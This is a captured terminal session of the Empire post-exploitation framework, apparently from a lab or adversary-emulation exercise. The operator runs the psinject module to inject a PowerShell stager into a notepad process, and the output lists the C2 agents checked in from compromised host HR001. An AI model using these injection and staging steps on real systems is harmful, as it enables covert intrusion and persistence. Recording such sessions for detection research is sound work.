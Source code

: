 ```
                                                   ([domain\]username:password) to use for 
                                                   request (default, none, or other).      
  Agent      True        TKV35P8X                  Agent to run module on.                 
  Listener   True        https                     Listener to use.                        
  ProcName   False       notepad                   Process name to inject into.            
  Proxy      False       default                   Proxy to use for request (default, none,
                                                   or other).                              
  UserAgent  False       default                   User-agent string to use for the staging
                                                   request (default, none, or other).      

(Empire: powershell/management/psinject) > execute
[*] Tasked TKV35P8X to run TASK_CMD_JOB
[*] Agent TKV35P8X tasked with task ID 13
[*] Tasked agent TKV35P8X to run module powershell/management/psinject
(Empire: powershell/management/psinject) > Job started: BELAKR
[*] Sending POWERSHELL stager (stage 1) to 10.0.10.103
[*] New agent EMDBFPSY checked in
[+] Initial agent EMDBFPSY from 10.0.10.103 now active (Slack)
[*] Sending agent (stage 2) to EMDBFPSY at 10.0.10.103

(Empire: powershell/management/psinject) > agents 

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 H3DKB8SA ps 172.18.39.106   HR001             SHIRE\nmartha           powershell         5172   5/0.0    2019-05-18 20:06:25  https           
 TKV35P8X ps 172.18.39.106   HR001             *SHIRE\nmartha          powershell         5452   5/0.0    2019-05-18 20:06:28  https           
 56W8UEHP ps 172.18.39.106   HR001             SHIRE\nmartha           cmd                8572   5/0.0    2019-05-18 20:03:49  https           

 EMDBFPSY ps 172.18.39.106   HR001             SHIRE\nmartha           notepad            7924   5/0.0    2019-05-18 20:06:28  https   
```
